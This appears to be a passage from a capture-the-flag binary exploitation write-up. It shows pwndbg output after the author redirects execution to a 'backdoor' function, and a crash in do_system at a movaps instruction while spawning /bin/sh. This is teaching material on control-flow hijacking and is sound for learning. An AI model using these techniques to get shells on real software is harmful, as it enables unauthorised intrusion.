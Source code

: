 ```bash
    1 root      20   0    4184   2956   2736 S   0.0   0.1   0:00.03 bash
    7 root      20   0   11200   7088   4892 S   0.0   0.3   0:02.39 zsh
 1005 root      20   0   96780  63776  27508 S   0.0   3.1   0:00.66 gdb
 1008 root      20   0    2340   1396   1296 S   0.0   0.1   0:00.00 system_health_c
 1012 root      20   0    2588    680    608 S   0.0   0.0   0:00.00 sh
 1013 root      20   0    7040   3504   3080 R   0.0   0.2   0:00.00 top

Breakpoint 1, 0x0000000000401254 in backdoor ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
```



I  have success in redirect flow execution of program. Type `c` to continue:

 ````bash
pwndbg> c
Continuing.

Program received signal SIGALRM, Alarm clock.

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7e23f82 in do_system (line=0x402037 "/bin/sh") at ../sysdeps/posix/system.c:148
148	../sysdeps/posix/system.c: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────[ REGISTERS ]───────────────────────────────────────────
*RAX  0x7ffff7fbb600 (environ) —▸ 0x7fffffffe6a8 —▸ 0x7fffffffe8bb ◂— 'HOSTNAME=2d6562dcd579'
*RBX  0x402037 ◂— 0x68732f6e69622f /* '/bin/sh' */
*RCX  0x7fffffffe3f8 ◂— 0xc /* '\x0c' */
 RDX  0x0
*RDI  0x7fffffffe1f4 ◂— 0x0
*RSI  0x7ffff7f8241f ◂— 0x68732f6e69622f /* '/bin/sh' */
*R8   0x7fffffffe238 ◂— 0x0
*R9   0x7fffffffe6a8 —▸ 0x7fffffffe8bb ◂— 'HOSTNAME=2d6562dcd579'
 R10  0x8
 R11  0x246
*R12  0x7fffffffe258 ◂— 0x0
 R13  0x0
 R14  0x0
 R15  0x0
*RBP  0x7fffffffe3f8 ◂— 0xc /* '\x0c' */
*RSP  0x7fffffffe1e8 ◂— 0x0
*RIP  0x7ffff7e23f82 (do_system+370) ◂— movaps xmmword ptr [rsp + 0x50], xmm0
───────────────────────────────────────[ DISASM ]────────────────────────────────
 ► 0x7ffff7e23f82 <do_system+370>    movaps xmmword ptr [rsp + 0x50], xmm0
   0x7ffff7e23f87 <do_system+375>    mov    qword ptr [rsp + 0x68], 0
   0x7ffff7e23f90 <do_system+384>    call   posix_spawn <posix_spawn>
 ````



The program crash and I don't have my shell yet.  After some less hair in my head, I finally found what I'm missing. 
